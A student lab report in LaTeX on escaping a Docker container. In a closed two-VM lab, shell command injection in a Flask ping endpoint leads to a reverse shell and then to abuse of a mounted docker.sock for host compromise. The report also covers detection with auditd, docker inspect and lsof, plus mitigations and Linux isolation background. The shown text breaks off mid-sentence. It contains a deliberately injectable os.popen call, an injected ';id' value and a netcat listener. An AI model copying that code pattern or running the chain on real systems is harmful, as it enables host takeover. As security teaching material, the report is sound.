\documentclass[12pt]{report}

\usepackage{graphicx}
\usepackage{geometry}
\usepackage{hyperref}
\usepackage{float}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{url}

\hypersetup{
    colorlinks=true,
    linkcolor=black,
    urlcolor=blue,
    citecolor=black
}

\lstset{
  basicstyle=\ttfamily\small,
  backgroundcolor=\color{gray!10},
  frame=single,
  breaklines=true,
  numbers=left,
  numberstyle=\tiny\color{gray},
}

\geometry{margin=1in}

\begin{document}

\begin{titlepage}
    \centering

    % Top spacing
    \vspace*{2cm}

    % Title
    {\Huge \bfseries Docker Escape: Attack and Detection\par}
    \vspace{1cm}

    {\Large A Study on Container Security and Exploitation\par}

    \vspace{2cm}

    % Author block
    {\large
    \begin{tabular}{rl}
        \textbf{Name:} & Zala Vishmayraj \\
        \textbf{Enrollment No:} & 241370107071 \\
        \textbf{Program:} & B.E. Computer Engineering \\
        \textbf{Semester:} & 4th (C4) \\
    \end{tabular}
    }

    \vspace{2cm}


    \vfill

    % Bottom section
    {\large
    Gujarat Technological University
    }

    \vspace{0.5cm}

    {\large 23 April 2026}

\end{titlepage}

\tableofcontents
\newpage

% ============================================================
%  Chapter 1: Introduction
% ============================================================

\chapter{Introduction}

% ============================================================
\section{Project Overview}
% ============================================================

Two misconfigurations, neither exotic, combine to produce full host compromise
from a single HTTP request. No kernel exploits are involved. No CVEs need to be
present. The attack chain demonstrated in this project requires only two
operator-level decisions that are depressingly common in real deployments:
unsanitised user input passed to a shell via \texttt{os.popen()}, and the host
Docker socket bind-mounted into a running container.

The application under test is \textbf{NetDiag}, a fictional internal network
diagnostic tool built on Flask. NetDiag is designed to look plausible --- it
carries an \textit{INTERNAL USE ONLY} badge, presents a clean web interface, and
exposes a single utility endpoint that pings a user-supplied hostname. That
endpoint, \texttt{/ping}, executes the following on the server:

\begin{verbatim}
os.popen("ping -c 3 " + host)
\end{verbatim}

A semicolon in \texttt{host} terminates the \texttt{ping} command. Every
character that follows runs in the same shell, as the same user --- root inside
the container. The container itself has no \texttt{USER} directive and was
started with \texttt{-v /var/run/docker.sock:/var/run/docker.sock} mounted into
it. These two decisions are individually bad. Together they are catastrophic.

The full attack chain proceeds as follows. The attacker, operating from a
separate machine, sends a crafted HTTP request to the \texttt{/ping} route. The
injected payload opens a reverse shell back to the attacker. From inside that
shell the attacker communicates with the Docker daemon over the mounted Unix
socket, uses the Docker API to pull and run a new privileged container with the
host root filesystem mounted at \texttt{/mnt/host}, and writes a file directly
to the host filesystem --- achieving a complete container escape without ever
touching a kernel vulnerability.

\begin{figure}[h]
\centering

\includegraphics[width=\textwidth]{images/attack_chain.png}
% DIAGRAM 1.1 --- Attack Chain Overview
% Horizontal left-to-right flow with 5 nodes across two swim lanes.
% Swim lane 1 (VM2 -- Attacker): Attacker (VM2) -> HTTP GET /ping?host=8.8.8.8;id
% Swim lane 2 (VM1 -- Victim): RCE as root in container -> Reverse Shell ->
%   docker.sock abuse -> Host Compromise (VM1)
% Each arrow labelled with its mechanism:
%   command injection | bash TCP redirect | Docker API call
\caption{Attack Chain Overview --- VM2 to Host Compromise on VM1}
\label{fig:attack-chain}
\end{figure}

The lab uses two virtual machines. \textbf{VM1} (\texttt{192.168.98.4}) is the
victim; it runs the Docker daemon and hosts the NetDiag container. \textbf{VM2}
(\texttt{192.168.98.5}) is the attacker; it sends the exploit request and
receives the reverse shell. Both machines run Kali Linux on a VirtualBox NAT
Network, giving them mutual reachability without exposure to the public internet.

Three scripts accompany this project. \texttt{setup.sh} runs on VM1 and builds
the NetDiag image, removes any previous instance, and starts the container with
the exact flags that create the vulnerable configuration. \texttt{attack.sh}
runs on VM2 and walks through the full exploitation chain step by step, with
output annotated at each stage. \texttt{detect.sh} runs on VM1 after the attack
and demonstrates post-incident detection using \texttt{docker inspect},
\texttt{auditd}, and \texttt{lsof}.

% ============================================================
\section{Objectives}
% ============================================================

Four concrete objectives drive this project, each with a specific technical
end-state rather than a generic learning outcome.

\subsection{Demonstrate the Attack Chain End to End}

The primary objective is to show, reproducibly, that two common
misconfigurations combine to produce full host compromise. The specific end
state is a file written to \texttt{/tmp/escaped.txt} on the VM1 host
filesystem, created from inside the NetDiag container, confirming that the
attacker has escaped the container boundary entirely.

\subsection{Explain the OS-Level Mechanics}

Linux namespaces isolate the container at the PID, network, mount, and UTS
level. That isolation does not protect against this attack. The Docker socket is
a Unix domain socket owned by the Docker daemon, which runs on the host outside
any container namespace. Bind-mounting it into the container gives the container
a direct channel to that daemon. Because the container process runs as root with
a full capability set --- no \texttt{USER} directive drops privileges, no
\texttt{--cap-drop} removes capabilities at runtime --- it can send arbitrary
commands to the daemon, including requests to spawn new containers with
unrestricted host filesystem access. Namespace isolation is not a substitute for
capability restriction when a privileged communication channel is deliberately
handed to the contained process.

\subsection{Build and Document a Working Detection Toolkit}

Detection does not require a commercial SIEM or a dedicated security appliance.
The toolkit documented in this project uses tools available on any standard
Linux host:

\begin{itemize}
  \item \texttt{docker inspect} --- audits container mount configuration before
    or after an incident, revealing any bind-mount of
    \texttt{/var/run/docker.sock}.
  \item \texttt{auditd} with a \texttt{-w} watch rule on
    \texttt{/var/run/docker.sock} --- writes a kernel audit event every time the
    socket is opened, providing a timestamped record of access.
  \item \texttt{lsof} --- identifies in real time which processes hold the
    socket file descriptor open, useful during a live incident.
  \item \textbf{Falco} --- referenced as the production-grade alternative; a
    kernel-level eBPF/syscall monitor that can alert on socket access, container
    escape indicators, and anomalous Docker API calls without requiring auditd
    configuration.
\end{itemize}

\subsection{Document Concrete Mitigations}

Mitigation requires two targeted fixes. At the application layer, replacing

\begin{verbatim}
os.popen("ping -c 3 " + host)
\end{verbatim}

\noindent with

\begin{verbatim}
subprocess.run(['ping', '-c', '3', host], capture_output=True)
\end{verbatim}

removes the shell entirely. The user-supplied value is passed as a list element
to \texttt{execve} and is never interpreted by a shell parser, so no injected
metacharacter can break command context. At the infrastructure layer, removing
\texttt{-v /var/run/docker.sock:/var/run/docker.sock} from the \texttt{docker
run} invocation closes the escape route even if command injection remains
present. Rootless Docker, Podman, and Docker Socket Proxy are documented as
architectural alternatives for deployments that genuinely require socket access
from within a container.

% ============================================================
\section{Lab Environment Summary}
% ============================================================

\subsection{Physical Setup}

The lab consists of two Kali Linux virtual machines running under VirtualBox in
NAT Network mode. NAT Network gives each VM a private IP address and routes
traffic between them through a VirtualBox virtual switch; neither machine has a
route to the public internet, which is not required for any part of this
demonstration. VM1 is assigned \texttt{192.168.98.4} and acts as the victim. VM2
is assigned \texttt{192.168.98.5} and acts as the attacker. The assigned
addresses can be verified on either machine with \texttt{ip a}, which queries
the kernel's interface table and prints the IPv4 and IPv6 addresses bound to
each network interface.

\subsection{VM1 --- Victim Machine}

VM1 runs the Docker daemon (\texttt{dockerd}) as a root-owned system service.
\texttt{dockerd} itself runs as root on the host and owns the Unix socket at
\texttt{/var/run/docker.sock}, created with mode \texttt{660} and group
\texttt{docker} by default. The NetDiag container is started by
\texttt{setup.sh} with the following command:

\begin{verbatim}
docker run -d \
  -p 5000:5000 \
  -v /var/run/docker.sock:/var/run/docker.sock \
  --name netdiag-app \
  netdiag
\end{verbatim}

Each flag has a specific OS-level effect. \texttt{-d} runs the container in
detached mode, disconnecting it from the terminal's standard input and placing
it under daemon supervision. \texttt{-p 5000:5000} installs an iptables DNAT
rule on the host that rewrites packets arriving at host port 5000 and forwards
them to the container's port 5000 via the \texttt{docker0} bridge interface.
\texttt{-v /var/run/docker.sock:/var/run/docker.sock} creates a bind mount: the
kernel maps the host inode for the socket file directly into the container's
mount namespace at the same path, so any process inside the container that opens
that path is in fact opening the host socket. The \texttt{--name netdiag-app}
flag assigns a human-readable name used by \texttt{detect.sh} when calling
\texttt{docker inspect}.

The container process runs as root. The Dockerfile contains no \texttt{USER}
directive, and no \texttt{--user} flag is passed at runtime. Inside the
container, the Flask application is bound to \texttt{0.0.0.0:5000}, making it
reachable on all container interfaces and, via the port mapping, on all host
interfaces --- including the one facing VM2.

\subsection{VM2 --- Attacker Machine}

VM2 uses no tools beyond those shipped with Kali Linux: \texttt{curl} for HTTP
requests and \texttt{nc} (netcat) for the reverse shell listener. No
vulnerability scanner, no exploit framework, and no prior access to the NetDiag
source code is required. The vulnerability is discovered through direct
interaction with the \texttt{/ping} endpoint: the response timing and content
change when shell metacharacters are appended to the \texttt{host} parameter,
confirming that input reaches the shell unfiltered.

\subsection{Network Topology}

\begin{figure}[h]
\centering

\includegraphics[width=\textwidth]{images/lab_network_topology.png}
% DIAGRAM 1.2 --- Lab Network Topology
% Two side-by-side boxes: VM1 (192.168.98.4) and VM2 (192.168.98.5).
% Inside VM1: Host OS (Kali) box containing a nested Docker container box
%   labelled "netdiag-app (Flask :5000)".
% A line labelled "/var/run/docker.sock" connects the container box to a
%   "dockerd" label on the host OS layer.
% An arrow labelled "port 5000 (iptables DNAT)" crosses the VM1 boundary.
% A bidirectional arrow between the two VM boxes labelled
%   "VirtualBox NAT Network (192.168.98.0/24)".
% Inside VM2: labels "nc -lvnp 4444 (reverse shell listener)"
%   and "curl (exploit delivery)".
\caption{Lab Network Topology --- VirtualBox NAT Network}
\label{fig:lab-topology}
\end{figure}

\subsection{Software Versions}

The following versions were used during development and testing. Confirm each
value on the live VMs before final submission.

\begin{itemize}
  \item Kali Linux: \textit{(fill in from \texttt{uname -a} on VM1)}
  \item Docker Engine: \textit{(fill in from \texttt{docker --version} on VM1)}
  \item Python inside the container: \textit{(fill in from \texttt{python3 --version} inside the container)}
  \item Flask: \textit{(fill in from \texttt{pip show flask} inside the container)}
\end{itemize}

% ============================================================
\section{Scope and Limitations}
% ============================================================

\subsection{What Is In Scope}

This project addresses the specific two-vulnerability chain: command injection
via unsanitised shell execution combined with the \texttt{docker.sock} bind
mount. Detection methodology uses tools available on a default Kali Linux
installation supplemented by \texttt{auditd}. Mitigation is addressed at two
levels: the application source code and the container runtime invocation.
OS-level explanation of why PID and mount namespace isolation does not
neutralise this attack is included in Chapter~2.

\subsection{What Is Explicitly Out of Scope}

\begin{itemize}
  \item \textbf{Kernel exploits} --- Dirty Pipe (CVE-2022-0847), Dirty COW
    (CVE-2016-5195), and runc CVEs (CVE-2019-5736) are not used and are not
    needed. This is deliberate: misconfiguration alone, without any unpatched
    CVE, is sufficient for full host compromise.
  \item \textbf{Container runtime CVEs} --- No patching is required on VM1. The
    vulnerable state is produced entirely by configuration choices, not by
    software defects in Docker or the Linux kernel.
  \item \textbf{Privilege escalation on VM2} --- The attacker operates from a
    standard user session on Kali. No local privilege escalation on the attacker
    machine is required or demonstrated.
  \item \textbf{Network-layer attacks} --- ARP spoofing, MITM interception, and
    similar techniques are not used. The attacker reaches the application
    directly over HTTP using the known IP address of VM1.
\end{itemize}

\subsection{Limitations of the Demo Environment}

The VirtualBox NAT Network does not represent a production network. In a real
deployment, a Flask application would typically sit behind a reverse proxy such
as nginx or Caddy, which would terminate TLS, apply rate limiting, and not
expose the application port directly to external traffic. The direct exposure of
port 5000 in this lab simplifies the demonstration but overstates the ease of
initial access in hardened environments.

The Kali base image used inside the container includes many pre-installed tools.
A minimal Alpine or Debian Slim base would require installing the Docker CLI
package before the escape step, which would add latency but would not change the
fundamental technique.

The \texttt{setup.sh} script calls \texttt{docker rm -f netdiag-app} before
each run, destroying the previous container and its filesystem overlay. In a
real incident the container filesystem would remain intact after the escape and
would preserve forensic artifacts: shell history, dropped binaries, and any
files created by the attacker before pivoting to the host.

\subsection{What the Demo Proves}

Two conclusions follow directly from the demonstration. First, operator-level
configuration decisions --- mounting the Docker socket and omitting a non-root
user directive --- carry more exploitability risk than most individual
application vulnerabilities in isolation. A perfectly hardened application
cannot protect itself if the container runtime hands it a direct channel to the
host. Second, detection is tractable without expensive tooling: \texttt{auditd},
\texttt{docker inspect}, and \texttt{lsof} are available everywhere, cost
nothing, and produce actionable evidence.

% ============================================================
\section{Ethical Disclaimer}
% ============================================================

This project was conducted entirely within a closed VirtualBox environment with
no external network connectivity. No real systems, services, or data were
targeted at any point. The NetDiag application was written specifically for this
project and contains an intentional vulnerability; it is not derived from any
real production codebase.

The techniques demonstrated are documented in public security research: the OWASP
Testing Guide covers OS command injection; Docker's own security documentation
explicitly warns against mounting the Docker socket; the MITRE ATT\&CK framework
catalogues the relevant techniques as T1610 (Deploy Container) and T1611 (Escape
to Host). These techniques appear in offensive security training curricula ---
OSCP, CEH, eJPT --- precisely so that defenders understand what they are
protecting against. Any reproduction of this work must be performed in an
isolated lab environment only.

% ============================================================
%  Chapter 1 Summary
% ============================================================

\vspace{1em}
\noindent\rule{\textwidth}{0.4pt}
\vspace{0.5em}

\noindent\textbf{Chapter 1 Quick Reference}

\begin{itemize}
  \item Two Kali Linux VMs on a VirtualBox NAT Network; one vulnerable Flask
    application; one Docker socket misconfiguration.
  \item Attack chain: Command Injection $\rightarrow$ Reverse Shell
    $\rightarrow$ \texttt{docker.sock} abuse $\rightarrow$ Host Compromise.
  \item No kernel exploits. No CVEs. Misconfiguration alone is sufficient.
  \item Detection is possible with \texttt{auditd}, \texttt{docker inspect}, and
    \texttt{lsof}. Mitigation requires two targeted fixes: one in application
    code, one in the container run command.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}
%% Chapter 2: Operating System Foundations
%% Cybersecurity Lab Report — Docker Escape via docker.sock Abuse and Command Injection

\chapter{Operating System Foundations}

%% ─────────────────────────────────────────────────────────────────────────────
\section{The Linux Kernel and Its Role}
%% ─────────────────────────────────────────────────────────────────────────────

The Linux kernel is the single arbitrator of all hardware and process access on a
system. Every container, every process, and every privileged daemon ultimately
operates at the kernel's discretion. Understanding the kernel's design is therefore
a prerequisite for understanding why container isolation is possible, why it is
imperfect, and why the attack described in later chapters succeeds.

Linux follows a \textit{monolithic kernel} architecture: all core subsystems---memory
management, the filesystem layer, the network stack, and the process scheduler---run
in \textit{kernel space} (CPU ring 0). Code executing in ring 0 has unrestricted
access to physical hardware and all kernel data structures. User processes, by
contrast, run in \textit{ring 3} and cannot directly address hardware. Any operation
that requires kernel involvement---reading a file, creating a socket, spawning a
child process---must cross the kernel--user boundary via a \textit{system call}.

\begin{figure}[H]
\centering

\includegraphics[width=0.4\textwidth]{images/ch2/linux_privilege_rings.png}
% Diagram: Linux Privilege Rings / Kernel--User Space Boundary
% Shows Ring 0 (kernel), Ring 3 (userland), syscall crossing point,
% container processes sitting in ring 3 alongside host processes
\caption{Linux Privilege Rings and the Kernel--User Space Boundary}
\end{figure}

Two privilege domains therefore govern all execution on a Linux host:

\begin{itemize}
    \item \textbf{Kernel space (ring 0):} Executes with full hardware privileges.
          Hosts all subsystems, device drivers, and the syscall dispatch table.
    \item \textbf{User space (ring 3):} Executes without direct hardware access.
          All processes---including container processes---run here.
\end{itemize}

A critically important consequence follows from this design: the Linux kernel has no
native concept of a \textit{container}. The kernel sees only processes, namespaces,
and control groups. All containers running on a host share the \textit{same kernel}.
This shared kernel is the fundamental attack surface exploited throughout this
project. A container process and a native host process are, from the kernel's
perspective, architecturally identical objects differentiated only by their namespace
membership and cgroup assignment.


%% ─────────────────────────────────────────────────────────────────────────────
\section{System Calls --- The Kernel Interface}
%% ─────────────────────────────────────────────────────────────────────────────

System calls (syscalls) are the only sanctioned mechanism by which user-space code
may request privileged kernel services. When a process in ring 3 needs to perform an
operation that requires kernel involvement, it executes a \texttt{syscall} instruction
(or the legacy \texttt{int 0x80} on 32-bit systems). The CPU immediately switches
execution to ring 0, transfers control to the kernel's syscall dispatcher, which
identifies the requested service by number and invokes the appropriate handler. On
completion, the CPU returns to ring 3 and execution resumes in user space.

Each syscall is identified by a unique integer. On x86\_64 Linux, some relevant
numbers include \texttt{clone} (56), \texttt{mount} (165), and \texttt{socket} (41).
The syscall table itself lives in kernel memory and cannot be modified by unprivileged
processes without a kernel exploit.

\begin{figure}[h]
\centering

\includegraphics[width=0.8\textwidth]{images/ch2/syscall_flow.png}
% Diagram: Syscall Flow --- User Space to Kernel and Back
% Shows: user process → syscall instruction → kernel dispatch table → handler → return value
\caption{Syscall Flow: User Space to Kernel and Back}
\end{figure}

Several syscalls are directly relevant to container creation and, consequently, to the
attack surface examined in this report:

\begin{itemize}
    \item \texttt{clone(CLONE\_NEWPID | CLONE\_NEWNS | ...)} --- namespace creation;
          this is the syscall that actually instantiates a container's isolated view.
    \item \texttt{unshare()} --- detaches the calling process from one or more of its
          current namespaces.
    \item \texttt{setns()} --- joins an existing namespace identified by a file
          descriptor; the mechanism by which namespace escape is accomplished.
    \item \texttt{execve()} --- replaces the calling process image with a new program.
    \item \texttt{socket(AF\_UNIX, ...)} --- creates a Unix domain socket, the
          underlying transport for \texttt{docker.sock} communication.
\end{itemize}

The following command illustrates syscall observation during container creation:

\begin{lstlisting}[language=bash]
strace -e trace=clone,unshare,mount docker run --rm alpine sh
# shows exact syscalls docker uses to create a container
\end{lstlisting}

Because seccomp operates as a BPF filter interposed at this layer, restricting
syscalls is the primary kernel-level defence against container escapes. Its
limitations in the context of \texttt{docker.sock} abuse are discussed in
Section~\ref{sec:seccomp}.


%% ─────────────────────────────────────────────────────────────────────────────
\section{Process Isolation and the Process Table}
%% ─────────────────────────────────────────────────────────────────────────────

The kernel maintains a single, global process table. Every process on the system---
whether a native host service or a containerised workload---occupies an entry in this
table, represented internally by a \texttt{task\_struct}. The \texttt{task\_struct}
holds all per-process metadata: the process identifier (PID), associated UID/GID,
open file descriptor table, memory map, capability sets, and, critically, a pointer
to the process's \texttt{nsproxy}---the structure linking it to its namespace set.

The apparent isolation of container processes is therefore a \textit{visibility}
property, not a \textit{separation} property. From the host:

\begin{lstlisting}[language=bash]
# On host -- see container process with its real host PID
ps aux | grep flask
\end{lstlisting}

The same Flask process that appears as PID 1 inside its container is visible on the
host with a higher, real PID (e.g., 3847). From inside the container, the process
appears isolated:

\begin{lstlisting}[language=bash]
# From inside the container -- sees only its own namespace PIDs
ps aux
\end{lstlisting}

Key implications for security are as follows. The container's \texttt{init} (PID 1
within the container) is just another process on the host. If cgroup PID limits are
absent, a fork bomb inside a container directly burdens the host's process scheduler.
Parent-child process relationships cross the container boundary in the kernel's view,
even though they are invisible from within the container's PID namespace.


%% ─────────────────────────────────────────────────────────────────────────────
\section{Linux Namespaces --- The Core of Container Isolation}
\label{sec:namespaces}
%% ─────────────────────────────────────────────────────────────────────────────

Linux namespaces partition global kernel resources so that each container receives an
isolated \textit{view} of those resources. Eight namespace types exist in modern
kernels; six are relevant here: PID, NET, MNT, UTS, IPC, and USER. Namespaces are
created via \texttt{clone()} flags or the \texttt{unshare()} syscall, and are
hierarchical---a child process inherits the parent's namespace set unless one or more
\texttt{CLONE\_NEW*} flags override this.

\begin{lstlisting}[language=bash]
ls -la /proc/self/ns/
# lrwxrwxrwx ... pid -> pid:[4026531836]
# lrwxrwxrwx ... net -> net:[4026531992]
\end{lstlisting}

The inode numbers exposed by these symlinks uniquely identify namespace instances.
Two processes sharing the same inode for \texttt{/proc/\textless{}pid\textgreater{}/ns/pid}
are members of the same PID namespace---a fact exploited by detection scripts later
in this report.

\begin{figure}[h]
\centering

\includegraphics[width=0.8\textwidth]{images/ch2/linux_namespace_hierarchy.png}
% Diagram: Linux Namespace Hierarchy --- Host vs Container View
% Shows host namespace set vs container namespace set;
% shared kernel underneath; PID/NET/MNT split
\caption{Linux Namespace Hierarchy: Host vs Container View}
\end{figure}

The central security implication is concisely stated: namespaces constrain
\textit{what a process sees}, not \textit{what the kernel permits it to do}. A
process that gains access to a privileged communication channel---such as the Docker
daemon socket---can instruct the daemon to perform operations on its behalf that
bypass all namespace restrictions.

%% ── 2.4.1 ─────────────────────────────────────────────────────────────────
\subsection{PID Namespace}
%% ──────────────────────────────────────────────────────────────────────────

The PID namespace gives a container its own process identifier number space, starting
at PID 1. The host kernel maintains the real, globally unique PIDs; the container's
PID namespace provides a translated view. The same process therefore has two PIDs:
its real host PID (e.g., 3847) and its container-local PID (e.g., 1).

PID namespaces are nested: the host PID namespace is the root; each container's PID
namespace is a child. If PID 1 within a container is killed, the kernel delivers
\texttt{SIGKILL} to all remaining processes in that namespace, terminating the
container. Escaping to the host namespace reveals the real PIDs of all container
processes, enabling targeted signal delivery and \texttt{/proc} introspection against
previously opaque workloads.

%% ── 2.4.2 ─────────────────────────────────────────────────────────────────
\subsection{Network Namespace}
%% ──────────────────────────────────────────────────────────────────────────

Each container's network namespace provides an isolated network stack: its own
loopback and Ethernet interfaces, routing table, iptables rule set, and socket table.
The container is connected to the host via a \textit{virtual Ethernet pair}
(\texttt{veth}): one end appears inside the container as \texttt{eth0}; the other end
is attached to the \texttt{docker0} bridge on the host (default subnet
\texttt{172.17.0.0/16}).

Port forwarding (e.g., \texttt{-p 5000:5000}) is implemented as a host-side
iptables DNAT rule that rewrites the destination address of inbound packets to the
container's internal IP. A reverse shell initiated from within the container
traverses this path in reverse: container network namespace $\rightarrow$ \texttt{veth}
pair $\rightarrow$ \texttt{docker0} bridge $\rightarrow$ host NIC $\rightarrow$
attacker.

\begin{lstlisting}[language=bash]
ip netns list                       # list network namespaces
ip link show                        # host: docker0 + veth pairs
docker exec netdiag-app ip addr     # container: only eth0
\end{lstlisting}

%% ── 2.4.3 ─────────────────────────────────────────────────────────────────
\subsection{Mount Namespace}
\label{sec:mountns}
%% ──────────────────────────────────────────────────────────────────────────

The mount namespace isolates the filesystem mount table, giving each container its
own root (\texttt{/}). Docker implements the container's root filesystem using
\textbf{OverlayFS}: read-only image layers (\texttt{lowerdir}) are stacked beneath a
per-container writable layer (\texttt{upperdir}) and merged into a unified view
mounted at the container root.

\begin{figure}[h]
\centering

\includegraphics[width=0.6\textwidth]{images/ch2/overlayfs_and_bind_mount.png}
% Diagram: OverlayFS + Bind Mount --- How docker.sock Pierces Namespace Isolation
% Shows: image layers (lower), writable layer (upper), merged view,
% bind mount path from host into container
\caption{OverlayFS and Bind Mount: How \texttt{docker.sock} Pierces Mount Namespace Isolation}
\end{figure}

\textit{Bind mounts} pierce the mount namespace by mapping a host path directly into
the container's mount table. The configuration:

\begin{lstlisting}[language=bash]
-v /var/run/docker.sock:/var/run/docker.sock
\end{lstlisting}

causes the host socket inode to appear simultaneously in both the host and container
mount namespaces. The mount namespace boundary is intact for all other paths, but
\textit{bypassed} for this specific path. This misconfiguration is the root cause of
the escape demonstrated in Chapter~4. Mount namespace membership can be inspected
from inside the container:

\begin{lstlisting}[language=bash]
cat /proc/self/mounts          # shows bind mounts visible in current namespace
findmnt                        # tree view of all mounts
\end{lstlisting}

%% ── 2.4.4 ─────────────────────────────────────────────────────────────────
\subsection{UTS Namespace}
%% ──────────────────────────────────────────────────────────────────────────

The UTS (UNIX Time-sharing System) namespace isolates the system hostname and NIS
domain name. A container may be assigned its own hostname via the \texttt{--hostname}
flag without affecting the host's identity. This namespace has minimal direct
relevance to the attack described in this report and is included for completeness of
the isolation model.

%% ── 2.4.5 ─────────────────────────────────────────────────────────────────
\subsection{IPC Namespace}
%% ──────────────────────────────────────────────────────────────────────────

The IPC namespace isolates System V inter-process communication objects (message
queues, semaphores, and shared memory segments) and POSIX message queues. By default,
container processes cannot access host IPC objects. The flag \texttt{--ipc=host}
removes this isolation, collapsing the container's IPC namespace into the host's.
This configuration is occasionally encountered in high-performance computing
deployments but is not exploited directly in this project.

%% ── 2.4.6 ─────────────────────────────────────────────────────────────────
\subsection{User Namespace}
%% ──────────────────────────────────────────────────────────────────────────

The user namespace maps UIDs and GIDs inside the container to different UIDs and GIDs
on the host. Rootless Docker uses this mechanism: UID 0 inside the container maps to
an unprivileged UID (e.g., 100000) on the host, confining the blast radius of a
container escape.

Standard Docker, however, runs a root-owned daemon and does not enable user namespace
remapping by default. In this configuration, UID 0 inside the container corresponds
to UID 0 on the host for all kernel-mediated operations. The container used in this
project runs as root without user namespace remapping, which can be confirmed from
inside the container:

\begin{lstlisting}[language=bash]
cat /proc/self/uid_map
# "0  0  4294967295" = no remapping; the process is true root
\end{lstlisting}

This absence of remapping is directly relevant to the escape in Chapter~6: filesystem
objects created by the escaped container process are owned by host root, and the
privileged container spawned via \texttt{docker.sock} also runs as host root.


%% ─────────────────────────────────────────────────────────────────────────────
\section{Control Groups (cgroups) --- Resource Enforcement}
%% ─────────────────────────────────────────────────────────────────────────────

Control groups (cgroups) limit, account for, and isolate the resource consumption
of process groups. Docker creates one cgroup per container under
\texttt{/sys/fs/cgroup/}. Two versions of the cgroup interface exist: cgroups v1,
which organises subsystems into separate per-resource hierarchies, and cgroups v2,
which unifies all subsystems under a single hierarchy.

\begin{figure}[h]
\centering

\includegraphics[width=0.6\textwidth]{images/ch2/cgroup_hierarchy.png}
% Diagram: cgroup Hierarchy --- Host vs Container Resource Slice
% Shows: host cgroup root → docker/ slice → per-container cgroup;
% subsystems hanging off each node
\caption{cgroup Hierarchy: Host vs Container Resource Slice}
\end{figure}

Relevant subsystems include:

\begin{itemize}
    \item \texttt{memory} --- limits resident set size; prevents a container from
          exhausting host RAM and triggering the OOM killer against host processes.
    \item \texttt{cpu} --- enforces CPU scheduling quotas.
    \item \texttt{pids} --- caps the number of processes; prevents fork bomb
          propagation to the host scheduler.
    \item \texttt{devices} --- controls access to device nodes; this is the subsystem
          disabled by \texttt{--privileged}.
    \item \texttt{blkio} --- limits block I/O bandwidth.
\end{itemize}

\begin{lstlisting}[language=bash]
# View memory usage for a running container
cat /sys/fs/cgroup/memory/docker/<container-id>/memory.usage_in_bytes

# Inspect cgroup parent via Docker API
docker inspect netdiag-app | grep CgroupParent
\end{lstlisting}

A critical limitation must be stated clearly: \textbf{cgroups enforce resource
boundaries; they do not provide security isolation}. They cannot prevent a process
from abusing a privileged socket, from calling \texttt{setns()} to join another
namespace (given the appropriate capabilities), or from performing any other
privilege-escalation technique. The \texttt{--privileged} flag disables the
\texttt{devices} cgroup subsystem entirely, granting the container access to all host
device nodes.


%% ─────────────────────────────────────────────────────────────────────────────
\section{Capabilities --- Fine-Grained Privilege Model}
\label{sec:capabilities}
%% ─────────────────────────────────────────────────────────────────────────────

Traditional UNIX privilege is binary: a process is either root (all privileges) or
unprivileged (none). Linux capabilities decompose root's monolithic privilege into
approximately forty discrete units, each controlling a distinct class of operations.
This allows Docker to run a container as UID 0 while withholding the most dangerous
kernel permissions.

Each process maintains five capability sets: \texttt{Permitted}, \texttt{Effective},
\texttt{Inheritable}, \texttt{Bounding}, and \texttt{Ambient}. The \texttt{Effective}
set determines what the process may do at any given moment; the \texttt{Bounding} set
acts as a ceiling that no child process may exceed.

Docker's \textbf{default capability set} (retained in containers) includes:
\texttt{CHOWN}, \texttt{DAC\_OVERRIDE}, \texttt{FOWNER}, \texttt{KILL},
\texttt{NET\_BIND\_SERVICE}, \texttt{SETUID}, \texttt{SETGID}, \texttt{SYS\_CHROOT},
\texttt{AUDIT\_WRITE}, \texttt{MKNOD}, \texttt{NET\_RAW}, \texttt{SETFCAP}, and
\texttt{SETPCAP}.

Docker \textbf{drops by default}: \texttt{SYS\_ADMIN}, \texttt{NET\_ADMIN},
\texttt{SYS\_PTRACE}, \texttt{SYS\_MODULE}, and others. Of these,
\texttt{CAP\_SYS\_ADMIN} deserves special attention: it is functionally near-
equivalent to root, enabling \texttt{mount()} calls, namespace manipulation via
\texttt{setns()} and \texttt{unshare()}, and a wide range of other privileged
operations.

\begin{lstlisting}[language=bash]
# Inspect capability sets from inside the container
capsh --print
# or directly from procfs
cat /proc/self/status | grep Cap
capsh --decode=<hex_value>
\end{lstlisting}

The container used in this project runs as root with Docker's default capability set
and \textit{without} \texttt{--privileged}. This means direct kernel escape via
